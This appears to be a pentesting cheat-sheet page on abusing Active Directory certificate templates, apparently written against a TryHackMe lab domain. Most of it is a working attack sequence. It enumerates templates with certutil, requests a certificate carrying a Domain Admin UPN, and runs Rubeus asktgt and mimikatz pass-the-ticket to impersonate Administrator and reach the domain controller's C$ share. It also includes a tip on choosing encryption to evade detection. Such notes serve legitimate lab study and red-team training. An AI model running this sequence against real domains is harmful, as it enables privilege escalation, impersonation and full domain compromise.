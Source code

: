 ## Certificates

[https://posts.specterops.io/certified-pre-owned-d95910965cd2?gi=46faae304292](https://posts.specterops.io/certified-pre-owned-d95910965cd2?gi=46faae304292)

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Finding Vulnerable Certificate Templates
https://github.com/GhostPack/PSPKIAudit
C:\>certutil -Template -v > templates.txt # look for key parameter combination said on the link/whitepaper

# Exploiting a Certificate Template
	Run mmc
	Click File->Add/Remove Snap-in..
    Add the Certificates snap-in and make sure to select Computer Account and Local computer on the prompts.
We will request a personal certificate:
    Right Click on Personal and select All Tasks->Request New Certificate...
    Click Next twice to select the AD enrollment policy.
    You will see that we have one template that we can request, but first, we need to provide additional information.
    Click on the More Information warning.
    Change the Subject name Type option to Common Name and provide any value, since it does not matter, and click Add.
    Change the Alternative name Type option to User principal name.
    Supply the UPN of the user you want to impersonate. The best would be a DA account such as Administrator@za.tryhackme.loc and click Add.
The last step is to export our certificate with the private key:
    Right-click on the certificate and select All Tasks->Export...
    Click Next, select Yes, export the private key, and click Next.
    Click Next, then set a password for the certificate since the private key cannot be exported without a password.
    Click Next and select a location to store the certificate.
    Click Next and finally click Finish.
    
# User Impersonation through a Certificate
# 1 - Use the certificate to request a Kerberos ticket-granting ticket (TGT)
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:
# /user - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
# /enctype -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
# 2 - Load the Kerberos TGT 
mimikatz # privilege::debug
mimikatz # kerberos::ptt administrator.kirbi
mimikatz # exit
C:\>dir \\THMDC.za.tryhackme.loc\c$\
```
{% endcode %}
